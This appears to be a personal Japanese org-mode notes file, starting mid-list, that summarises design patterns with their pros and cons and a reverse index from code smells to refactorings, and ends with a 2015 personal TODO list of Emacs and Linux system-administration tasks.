    - 継承による解決策や「条件記述の単純化」に書かれたリファ
      クタリングを使ったほうが簡単な場合には、それよりも設計
      が複雑になる

    - アルゴリズムがコンテキストクラスとデータをやり取りする
      方法が複雑になる 

** Visitor
*** 変更対応

    アルゴリズムの変更に対応

** State

*** 目的
    オブジェクト内部状態が変化したときに、オブジェクトが振舞
    を変えるよにする。クラス内では、振舞の変化を記述せず、状
    態を表すオブジェクトを導入することでこれを実現する。

*** 変更対応

    オブジェクトの状態の変更に対応

*** 利点・欠点
    + 状態を変えるための条件ロジックがなくなる、あるいは減る
    + 状態を変える複雑なロジックが単純になる
    + 状態を変えるロジックを俯瞰することができる
      
    - 状態遷移ロジックがもともとわかりやすい場合には、設計が
      複雑にになるだけである

** Decorator
*** 変更対応

    オブジェクトの振る舞いの変更に対応

*** 利点・欠点
    + 拡張機能が取り除かれるのでクラスを単純にできる
    + クラスの核となる責務と拡張機能と効果的に区別できる
    + 関連する複数のクラスに含まれる重複した拡張ロジックを取
      り除くことができる
    - 装飾対象のオブジェクトと装飾後のオブジェクトは異るもの
      になってしまう
    - コードを理解したりデバッグしたりするのが困難な場合があ
      る
    - Decorator を組み合わせた際、互いに悪影響を及ぼす場合に
      は、設計が複雑になる


** Adapter
*** 動機
    - 2 つのクラスが同じ、あるいはよく似たことを行っており、そ
      のインターフェースが異る
    - それらのクラスが同じインターフェースを共有しているとし
      たら、クライアントのコードはよりシンプルかつ簡単、簡明
      になる
    - サードパーティー製ライブラリの一部である、他の多くのク
      ライアントが既に使っているフレームワークの一部である、
      またはソースコードを入手できないといった理由で、片方の
      クラスのインターフェースを簡単に変えることができない

*** 変更対応

    インターフェースの変更に対応

*** 利点・欠点
    + クライアントコードが同じインターフェースを通じて複数の
      クラスとやり取りできるため、コードの重複をなくしたり減
      らしたりできる
    + 共通のインターフェースを通じてオブジェクトとやり取りで
      きるため、クライアントコードが簡潔になる
    + クライアントが複数のクラスとやり取りする方法を統合でき
      る
    + コンンポーネントやライブラリや API のバージョンごとに違
      いを切り分けることができる
    + クラスの責務を 1 つのバージョンに対応することだけに限定
      できる
    + 頻繁なコードの変更が必要な部分を限定できる


    - Adaptor で提供されていない重要な振舞をクライアントが使
      えなくなることがある
    - アダプタを作らなくてもクラスのインターフェースを変更で
      きる場合には、設計が複雑になるだけである

** Bridge
*** 変更対応

    実装方法の変更に対応

** Mediator
*** 変更対応

    オブジェクト間の通信方法の変更に対応
** Iterator
   http://www.ogis-ri.co.jp/otc/hiroba/technical/DesignPatternsWithExample/chapter02.html

*** 変更対応

    コンテナクラスのアクセス方法の変更に対応
    - 例えば、 container の アクセスを reverse したければ
    "Reverse" class を作成する。
** Factory Method
   http://marupeke296.com/DP_FactoryMethod.html
   http://think-on-object.blogspot.jp/2011/11/factoryfactory-methodabstract-factory.html
   http://www.ogis-ri.co.jp/otc/hiroba/technical/DesignPatternsWithExample/chapter04.html

   オブジェクトを生成するために必要な知識が多くクラスに散在
   しているときは生成の散在がおきている。つまり、生成に関す
   る責務が、オブジェクトの生成にかかわるべきでないクラスに
   置かれいるということである。

   親クラスである Factory が、実際のオブジェクトの生成を SubClass に委譲する

*** 利点・欠点

    + オブジェクトを生成するステップが異ることが原因で生じて
      る重複が減る
    + どこで生成が行われているか、どのようにオーバーライドさ
      れているかが効果的に伝えられる
    + Factory Method で使うためにクラスがどの型を実装しなけ
      ればならないのかが明確になる
    + コンストラクタとの依存度をさげる。
    + interface に依存させる。
    + 生成ロジックとインスタンス化／設定のための情報とをまと
      める
    + クライアントを生成ロジックから切り離す

    - クラスの数が多くなる
    - 直接インスタンス化に比べて設計が複雑になる
    - Factory Method を実装するクラスに不必要な引数を渡さな
      ければならないことがある 


** Abstract Factory
*** 適用ケース
    http://marupeke296.com/DP_AbstractFactory.html

    Abstract Factory は、沢山のオブジェクトで構成される「固定的な」
    オブジェクトを生成するときに利用すると便利です。
    例えば、 RPG に出てくる主人公クラスのキャラクターについて、
    「剣」「鎧」「兜」「盾」というオブジェクトの組み合わせで
    「武具」が構成されるとき、これらを Abstract Factory でまとめておくと、
    別のキャラクタにはそれようのクラスを作れば独自のキャラクタをどんどん
    　 Windows Media Player などアプリケーションを着飾る「スキン」
    には Abstract Factory が使えます。スキンは、
    「外枠」「再生ボタン」「停止ボタン」など
    画面を構成する部品が厳格に決まっているので、 
    Abstract Factory が使いやすいでしょう。

*** 非適用ケース

    Abstract Factory は、構成オブジェクトの種類が増減する
    オブジェクトへは適用しにくいかと思います。
    さきほどの「武具」について、新しく「ガントレット」を
    追加したいと考えて、 Abstract Factory クラスへ
    それを追加した場合、派生するクラスすべてを更新する必要が出てきます。
    そういう追加を行う場合、元のクラスを変更するのではなく、ガン
    トレットは別の Abstract Factory クラスとして定義して使用するし
    かないでしょう。
*** 利点・欠点

    + 様々な種類のインスタンスの生成を、意図が明確なメソッド
      経由で行うことで単純化できる
    + 公開する必要のないクラスが隠蔽されるため、パッケージの
      「概念的重み」「 Bloch 」を減らすことができる
    + 「インターフェースにたいしてプログラミングするのであって、
      実装に対してプログラミングするのではない」「 DP 」という原理を厳
      しく適用できる

    - 新しい種類のインスタンスを生成しなければならない場合に
      は、 Creation Method の新規作成や変更が必要になる
    - Factroy のソースコードではなくバイナリコードにしかアク
      セスできない場合には、カスタマイズが制限される

** Template Method
   アルゴリズムの不変な部分をまず実装し、振舞が変わり得る部
   分の実装はサブクラスに残しておく場合に使用する。

*** 目的
    1 つオペレーションにアルゴリズムのスケルトンを定義してお
    き、その中のいくつかのステップについては、サブクラスでの
    定義に任せることにする。
    Template Method パターンでは、アルゴリズムの構造を変えず
    に、アルゴリズム中のあるステップをサブクラスで再定義する。

*** 利点・欠点
    + 不変な振舞をスーパークラスに移すことで、サブクラス間の重
      複したコードを取り除くことができる
    + 汎用のアルゴリズムのステップを簡潔にし、効果的に伝える
      ことができる
    + サブクラスで簡単にアルゴリズムをカスタマイズできるよう
      になる

    - アルゴリズムを肉付けするためにサブクラスで多くのメソッ
      ドを実装しなければならない場合には、設計が複雑になる

** Singleton

   あるクラスに対してインスタンスが１つしか存在しないことを
   保証し、それにアクセスするためのグルーバルな方法を提供す
   る。

** Facade
** Flyweight
** Interpreter
*** 利点・欠点
    + 言語要素の組み合わせを、暗黙的な言語よりもうまくサポー
      トできる
    + 言語要素の新しい組み合わせをサポートするのにコードを追
      加する必要がない
    + 振舞を実行時に設定できる
      
    - 文法を定義し、それを使うようクライアントコードを変更す
      るという初期コストが伴う

    - 言語が複雑な場合には膨大なプログラミングが必要になる
    - 言語が単純な場合には設計が複雑になるだけである

** Observer
   http://www.ogis-ri.co.jp/otc/hiroba/technical/DesignPatternsWithExample/chapter05.html

   Push
   Pull

*** 利点・欠点
    + 観察対象と観察者との間の結合度が低くなる
    + 観察者が単数の場合にも複数の場合にも対処できる
    
    - ハードコーディングされた通知で用が足りる場合には、設計
      が複雑になる
    - 通知がカスケードしている場合には、設計が複雑になる
    - 観察対象から観察者が削除されないと、メモリーリークが起
      きる可能性がある

** Memento
** Proxy
** Decorator
** Command
*** 利点・欠点
    + 一律に同じやり方で、さまざまな振舞を実行するためのシン
      プルなメカニズムである
    + どのリクエストをどのように処理するかは実行時に変更でき
      る
    + 実装するためのコードが少ししか必要でない
      
    - 条件つき ディスパッチャで用が足りる場合には、設計が複雑
      になるだけである

** Chain
** Builder
   Builder のインターフェースは、誰が見てもすぐわかるように、
   明確に意図が伝わるものでなければならない。

*** 利点・欠点
    + Composite を構築するクライアントコードを単純化できる
    + Composite の生成にまつわる繰返しやエラーを軽減できる
    + クライアントと Composite の間の結合度が低くなる
    + カプセル化された Composite や複合オブジェクトを異った形
      式で表現できる

    - インターフェースの意図が伝わりにくくなる可能性がある
    - Builder の提供する機能を完全に理解するには、 Builder の
      実装を見たり、テストコードやドキュメントを読んだりする
      必要があるかもしれない。 

** Visitor
** Composite
*** 利点・欠点
    + ノードの形成、追加、削除といった手順の繰返しをカブセル
      化できる
    + 同じようなロジックの増殖に対処する汎用的な方法となる
    + クライアントの構築作業が簡単になる
    + 子に関する格納と処理の両ロジックの重複をなくすことがで
      きる
    + 子を処理するロジックを継承できることが効果的に伝わる
     
    - 暗黙的なツリー構造を作成するほうが簡単な場合には、設計
      が複雑になるだけである
      
* 逆引 Design Pattern
** 重複したコード
   - Template Method の形成
   - Factory Method によるポリモーフィックな生成の導入
   - コンストラクタの連鎖
   - Composite による単数、複数別の処理の置き換え
   - Composite の抽出
   - Adapter によるインターフェースの統合
   - Null オブジェクトの導入

** 長過るメソッド
   - メソッドの構造化
   - Collecting Parameter による累積処理の書き換え
   - Command による条件つきディスパッチャの置き換え
   - Visitor による累積処理の書き換え
   - Strategy による条件判断の置き換え

** 複雑な条件記述
   - Strategy による条件判断の置き換え
   - Decorator による拡張機能の書き換え
   - State による状態変化のための条件判断の置き換え
   - Null オブジェクトの導入

** 基本データ型への執着
   - クラスによるタイプコードの置き換え
   - State による状態変化のための条件判断の置き換え
   - Strategy による条件判断の置き換え
   - Composite による暗黙的なツリー構造の置き換え
   - Interpreter による暗黙的な言語処理の置き換え
   - Decorator による拡張機能の書き換え
   - Builder による Composite の隠蔽

** 見苦しい露出
   - Factory によるクラス群の隠蔽

** 解決策の散在
   - Factory による生成処理の書き換え

** クラスのインンターフェース不一致
   - Adapter によるインターフェースの統合

** 怠け者クラス
   - Singleton のインライン化

** 巨大なクラス
   - Command による条件つきディスパッチャの置き換え
   - State による状態変化のための条件判断の置き換え
   - Interpreter による暗黙的な言語処理の置き換え

** スイッチ文
   - Command による条件つきティスパッチャの置き換え
   - Visitor による累積処理の書き換え
     
** 組み合わせの爆発的増加
   - Interpreter による暗黙的な言語処理の置き換え

** 風変わりな解決策
   - Adapter によるインターフェースの統合
* ----- DOING -----
** TODO Create king server clone on VirtualBox
  <2015-10-07 Wed 09:04>
** TODO coop mysql
  <2015-10-06 Tue 14:02>
** TODO magit perspective
  <2015-10-05 Mon 05:57>
** TODO fix woman
  <2015-10-02 Fri 13:42>
** TODO fix dmacro
  <2015-10-02 Fri 13:15>
** TODO .zsh history merge
   <2015-10-02 Fri 12:35>
** TODO systemd ssh tunnel
   <2015-10-02 Fri 12:33>
** TODO auto construct dotfile from king server 
   <2015-10-02 Fri 12:32>
** TODO emacs package make minimize
   <2015-10-02 Fri 12:22>
** TODO disable view mode on magit commit buffer
   <2015-10-02 Fri 11:48>
** TODO insert magit commit template
   <2015-10-02 Fri 11:45>
** TODO python elisp_compileall.py wait close all process
   <2015-10-02 Fri 10:59>
** TODO org-todo rotate sequence TODO => DONE => LATER
   <2015-10-02 Fri 10:16>
** TODO make function some-buffer-save-kill
   <2015-10-02 Fri 08:30>
** TODO pymacs package manage by el-get
   <2015-09-30 Wed 12:59>
** TODO lock desktop
   <2015-09-28 Mon 02:34>
** TODO kernel crash dump
   <2015-09-27 Sun 02:00>
** TODO upgrade python3
   <2015-09-26 Sat 11:09>
** TODO king kernel config
   <2015-09-26 Sat 11:07>
** TODO recover usb linux
   <2015-09-26 Sat 11:07>
** TODO king auto halt "halt" to "poweroff"
   <2015-09-12 Sat 03:15>
** TODO systemd bluetooth device detected to active bluetooth
   <2015-09-11 Fri 05:04>
** TODO remove tty63
   <2015-09-11 Fri 03:48>
** TODO mac addr change at network interface connected
   <2015-09-11 Fri 03:48>
** TODO remove "wellcome kali linux on boot"
   <2015-09-11 Fri 03:47>
** TODO xahk
   <2015-08-30 Sun 17:43>
** TODO 多重起動防止
   <2015-08-30 Sun 11:58>
** TODO bus timetable watch dog for monthly
   <2015-08-19 Wed 08:30>
** TODO exception_hook_pdb
   <2015-08-07 Fri 09:53>
** TODO all recipe package to one
   <2015-08-07 Fri 00:57>
** TODO seikyo 最安値 excel 化
   <2015-08-06 Thu 21:26>
** TODO autohalt.py to king/fordeamon
   <2015-08-06 Thu 07:41>
** TODO king server connection object
   mirroring object
   <2015-08-06 Thu 07:13>
** TODO oil price calculate in japan 
   <2015-08-06 Thu 02:50>
** TODO yearly
   <2015-08-06 Thu 02:27>
** TODO 4monthly
   <2015-08-06 Thu 02:26>
** TODO monthly
   <2015-08-06 Thu 02:26>
** TODO currency exchange show daily
   <2015-08-06 Thu 02:14>
** TODO create chrome object
   <2015-08-05 Wed 22:41>
** POSTPONES sleipnir copy url and open chrome
   <2015-08-05 Wed 23:04>

